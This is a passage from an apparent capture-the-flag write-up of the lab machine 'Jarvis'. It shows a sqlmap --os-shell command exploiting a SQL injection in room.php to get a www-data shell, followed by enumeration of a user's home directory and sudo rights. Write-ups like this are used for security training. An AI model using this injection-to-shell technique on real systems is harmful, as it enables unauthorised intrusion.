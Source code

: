 We can then connect to the phpmyadmin as DBadmin:

![Jarvis phpmyadmin](/media/2019.10/jarvis_5.png){: .image-process-article-image}

This does not give us a shell. Let us try something different: the `--os-shell`
option from `sqlmap`. We got a shell!

    :::text
    sqlmap -u http://10.10.10.143/room.php?cod=5-1  --os-shell
    os-shell> id
    command standard output: 'uid=33(www-data) gid=33(www-data) groups=33(www-data)'

We start enumeration a bit and found that we can call a binary as the pepper
user with `sudo`.

    :::text
    os-shell> ls /home/
    command standard output: 'pepper'
    os-shell> ls /home/pepper/
    command standard output:
    ---
    Web
    user.txt
    ---
    os-shell> cat /home/pepper/user.txt
    command standard output: 'cat: /home/pepper/user.txt: Permission denied'
    os-shell> ls -al /home/pepper/
    command standard output:
    ---
    total 32
    drwxr-xr-x 4 pepper pepper 4096 Mar  5  2019 .
    drwxr-xr-x 3 root   root   4096 Mar  2  2019 ..
    lrwxrwxrwx 1 root   root      9 Mar  4  2019 .bash_history -> /dev/null
    -rw-r--r-- 1 pepper pepper  220 Mar  2  2019 .bash_logout
    -rw-r--r-- 1 pepper pepper 3526 Mar  2  2019 .bashrc
    drwxr-xr-x 2 pepper pepper 4096 Mar  2  2019 .nano
    -rw-r--r-- 1 pepper pepper  675 Mar  2  2019 .profile
    drwxr-xr-x 3 pepper pepper 4096 Mar  4  2019 Web
    -r--r----- 1 root   pepper   33 Mar  5  2019 user.txt
    ---
    os-shell> sudo -l
    command standard output:
